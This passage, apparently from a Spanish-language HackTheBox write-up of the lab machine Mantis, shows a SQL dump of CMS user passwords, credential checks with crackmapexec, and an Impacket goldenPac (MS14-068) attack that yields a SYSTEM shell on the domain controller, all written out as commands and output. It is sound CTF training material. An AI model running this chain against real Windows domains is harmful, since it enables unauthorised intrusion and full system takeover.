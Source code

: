 Ahora vamos a leer el contenido de estas columnas interesantes y tenemos las contraseñas y la de `admin` esta en `base64`

```bash
SQL> select username,password from blog_Orchard_Users_UserPartRecord

username                          password
--------------------------------- ----------------------------------------------------------------------  

admin                              AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
James                              J@m3s_P@ssW0rd!

SQL>
```

## Shell as administrator

Ahora vemos que las credenciales sean correctas

```bash
❯ crackmapexec smb mantis.htb.local -u James -p J@m3s_P@ssW0rd!
SMB         mantis.htb      445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         mantis.htb      445    MANTIS           [+] htb.local\James:J@m3s_P@ssW0rd!
```

Con `crackmapexec` también podemos verificar si un usuario pertenece a un grupo en este caso este es de interés 

```bash
❯ crackmapexec smb mantis.htb.local -u James -p J@m3s_P@ssW0rd! --groups 'Remote Desktop Users'
SMB         mantis.htb      445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         mantis.htb      445    MANTIS           [+] htb.local\James:J@m3s_P@ssW0rd! 
SMB         mantis.htb      445    MANTIS           [+] Enumerated members of domain group
SMB         mantis.htb      445    MANTIS           htb.local\james
```

Si buscamos información sobre la maquina en `Hackthebox` esta es la vulnerabilidad a explotar pero como tal podemos usar `goldenPac` <https://adsecurity.org/?p=541> nos conectamos con las credenciales de `James` y obtenemos `shell` como `nt authority\system` <https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Methodology%20and%20Resources/Active%20Directory%20Attack/#other-interesting-commands>

```bash
❯ goldenPac.py htb.local/James:'J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file eHwshorC.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service GNlg on mantis.htb.local.....
[*] Starting service GNlg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```